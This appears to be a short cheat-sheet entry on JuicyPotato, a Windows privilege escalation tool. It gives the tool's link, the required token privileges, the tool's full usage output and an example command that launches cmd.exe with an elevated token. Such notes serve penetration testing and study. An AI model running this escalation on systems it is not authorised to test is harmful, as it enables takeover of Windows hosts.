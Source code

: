 ```yaml
---
title: JuicyPotato (Windows PrivEsc)
---
```


- [Find it here](https://github.com/ohpe/juicy-potato)
- You can use it with an account that has `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`

- Instructions of usage:

```cmd
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

- Example command:

```cmd
.\juicypotato.exe -l PORT -p c:\windows\system32\cmd.exe -t *
```
